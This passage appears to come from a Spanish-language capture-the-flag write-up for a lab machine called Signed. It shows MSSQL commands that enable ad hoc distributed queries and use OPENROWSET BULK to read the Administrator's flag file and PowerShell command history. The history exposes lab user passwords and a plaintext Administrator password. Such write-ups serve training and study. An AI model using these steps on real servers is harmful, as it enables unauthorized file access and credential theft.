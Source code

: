 Habilitemos la función **OPENROWSET**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(DC01): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SIGNED\mssqlsvc  dbo@master)> RECONFIGURE;
SQL (SIGNED\mssqlsvc  dbo@master)> EXEC sp_configure 'Ad Hoc Distributed Queries', 1;
INFO(DC01): Line 196: Configuration option 'Ad Hoc Distributed Queries' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SIGNED\mssqlsvc  dbo@master)> RECONFIGURE;
```

Ya podemos leer cualquier archivo que solo el **Administrador** puede, por ejemplo, la flag del **Administrador**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\Desktop\root.txt',SINGLE_CLOB) AS flag;
BulkColumn                                
---------------------------------------   
b'**********'
```
Pero uno de los más importantes que siempre debemos tener en cuenta, es el historial de comandos.

Apuntemos al historial de comandos de **PowerShell** del **Administrador**:
```batch
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK 'C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt',SINGLE_CLOB) AS history;
BulkColumn                                                                                                                                                                                                                                                        
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
b'# Domain`\n$Domain = "signed.htb"`\n`\n# Groups`\n$Groups = @("HR","IT","Finance","Developers","Support")`\n`\nforeach ($grp in $Groups) 
{`\n    if (-not (Get-ADGroup -Filter "Name -eq \'$grp\'" -ErrorAction SilentlyContinue)) {`\n        
New-ADGroup -Name $grp -GroupScope Global -GroupCategory Security`\n    }`\n}`\n`\n# Users: Username, Password, Group`\n$Users = @(`\n    
@{Username="oliver.mills";       Password="!Abc987321$"; Group="HR"},`\n    
@{Username="emma.clark";         Password="!Xyz654789#"; Group="HR"},`\n    
@{Username="liam.wright";        Password="!Qwe123789&"; Group="HR"},`\n`\n    
@{Username="noah.adams";         Password="!ItDev456$"; Group="IT"},`\n
...
```
Podemos ver los usuarios que se crearon en la máquina y casi al final.

Analizándolo profundamente, podremos encontrar la contraseña en texto plano del **Administrador**:
```batch
...
$Settings -User "SIGNED\\Administrator" -Password "Welcome1"\r\ncd ..\\Documents\\\r\nnotepad restart.ps1\r\nexplorer .\r\ndir 
..\\Desktop\\\r\nmove ..\\Desktop\\cleanup.ps1 .\r\ndir ..\\Desktop\\\r\ndir\r\nGet-NetConnectionProfile\r\nSet-ADAccountPassword 
-Identity "Administrator" -NewPassword (ConvertTo-SecureString "**********" -AsPlainText -Force)
...
```
Tenemos su contraseña nueva.
